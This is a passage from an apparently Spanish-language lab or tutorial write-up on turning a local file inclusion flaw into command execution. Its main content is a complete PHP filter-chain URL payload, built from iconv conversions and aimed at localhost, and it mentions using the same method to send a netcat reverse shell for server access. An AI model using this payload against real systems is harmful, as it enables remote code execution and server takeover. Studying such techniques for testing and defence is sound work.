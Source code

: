 Explicación: con esta herramienta automatizamos muy rápido el proceso de crear el wrapper necesario para ejecutar comando a través de un LFI. Del mismo modo podríamos enviarnos una reverse shell mientras estamos en escucha con netcat por ejemplo y ganar acceso al servidor.

Acción 5:

```URL 
http://localhost/?filename=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
